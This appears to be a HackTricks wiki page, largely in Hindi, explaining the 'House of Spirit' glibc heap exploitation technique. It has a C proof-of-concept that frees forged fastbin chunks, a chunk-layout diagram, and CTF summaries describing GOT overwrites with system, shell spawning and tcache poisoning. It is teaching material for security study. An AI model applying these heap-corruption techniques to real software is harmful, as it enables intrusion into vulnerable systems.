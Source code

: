 # House of Spirit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

### Code

<details>

<summary>House of Spirit</summary> घर की आत्मा
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
size_t prev_size;
size_t size;
struct fast_chunk *fd;
struct fast_chunk *bk;
char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
void *ptr, *victim;

ptr = malloc(0x30);

printf("Original alloc address: %p\n", ptr);
printf("Main fake chunk:%p\n", &fake_chunks[0]);
printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);

// Attacker overwrites a pointer that is about to be 'freed'
// Point to .fd as it's the start of the content of the chunk
ptr = (void *)&fake_chunks[0].fd;

free(ptr);

victim = malloc(0x30);
printf("Victim: %p\n", victim);

return 0;
}
```
</details>

### लक्ष्य

* tcache / fast bin में एक पता जोड़ने में सक्षम होना ताकि बाद में इसे आवंटित किया जा सके

### आवश्यकताएँ

* इस हमले के लिए एक हमलावर को कुछ नकली तेज टुकड़े बनाने में सक्षम होना चाहिए जो इसके आकार के मान को सही ढंग से इंगित करते हैं और फिर पहले नकली टुकड़े को मुक्त करने में सक्षम होना चाहिए ताकि यह बिन में जा सके।

### हमला

* नकली टुकड़े बनाएं जो सुरक्षा जांचों को बायपास करते हैं: आपको मूल रूप से 2 नकली टुकड़े बनाने की आवश्यकता होगी जो सही स्थानों पर सही आकार को इंगित करते हैं
* किसी तरह पहले नकली टुकड़े को मुक्त करने का प्रबंधन करें ताकि यह तेज या tcache बिन में जा सके और फिर इसे उस पते को ओवरराइट करने के लिए आवंटित किया जा सके

**कोड** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **हमले को समझने के लिए बहुत अच्छा है।** हालांकि, कोड से यह स्कीमा इसे काफी अच्छी तरह से संक्षेपित करता है:
```c
/*
this will be the structure of our two fake chunks:
assuming that you compiled it for x64

+-------+---------------------+------+
| 0x00: | Chunk # 0 prev size | 0x00 |
+-------+---------------------+------+
| 0x08: | Chunk # 0 size      | 0x60 |
+-------+---------------------+------+
| 0x10: | Chunk # 0 content   | 0x00 |
+-------+---------------------+------+
| 0x60: | Chunk # 1 prev size | 0x00 |
+-------+---------------------+------+
| 0x68: | Chunk # 1 size      | 0x40 |
+-------+---------------------+------+
| 0x70: | Chunk # 1 content   | 0x00 |
+-------+---------------------+------+

for what we are doing the prev size values don't matter too much
the important thing is the size values of the heap headers for our fake chunks
*/
```
{% hint style="info" %}
ध्यान दें कि कुछ सैनीटी चेक को बायपास करने के लिए दूसरे चंक का निर्माण करना आवश्यक है।
{% endhint %}

## उदाहरण

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
* **Libc infoleak**: एक ओवरफ्लो के माध्यम से, एक पॉइंटर को GOT पते की ओर इंगित करने के लिए बदलना संभव है ताकि CTF की पढ़ाई क्रिया के माध्यम से libc पता लीक किया जा सके।
* **House of Spirit**: "राइफल्स" की संख्या को गिनने वाले काउंटर का दुरुपयोग करते हुए, पहले नकली चंक का एक नकली आकार उत्पन्न करना संभव है, फिर "संदेश" का दुरुपयोग करते हुए, एक चंक का दूसरा आकार नकली करना संभव है और अंततः एक ओवरफ्लो का दुरुपयोग करते हुए, एक पॉइंटर को बदलना संभव है जिसे मुक्त किया जाने वाला है ताकि हमारा पहला नकली चंक मुक्त हो जाए। फिर, हम इसे आवंटित कर सकते हैं और इसके अंदर "संदेश" संग्रहीत होने का पता होगा। फिर, इसे GOT तालिका के अंदर `scanf` प्रविष्टि की ओर इंगित करना संभव है, ताकि हम इसे सिस्टम के पते के साथ ओवरराइट कर सकें।\
अगली बार जब `scanf` को कॉल किया जाता है, तो हम इनपुट `"/bin/sh"` भेज सकते हैं और एक शेल प्राप्त कर सकते हैं।

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
* **Glibc leak**: अनइनीशियलाइज्ड स्टैक बफर।
* **House of Spirit**: हम हीप पॉइंटर्स के एक वैश्विक ऐरे के पहले इंडेक्स को संशोधित कर सकते हैं। एकल बाइट संशोधन के साथ, हम एक मान्य चंक के अंदर एक नकली चंक पर `free` का उपयोग करते हैं, ताकि हम फिर से आवंटित करने के बाद ओवरलैपिंग चंक्स की स्थिति प्राप्त कर सकें। इसके साथ, एक साधारण Tcache पॉइज़निंग हमला काम करता है ताकि एक मनमाना लिखने की प्राइमिटिव प्राप्त की जा सके।

## संदर्भ

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
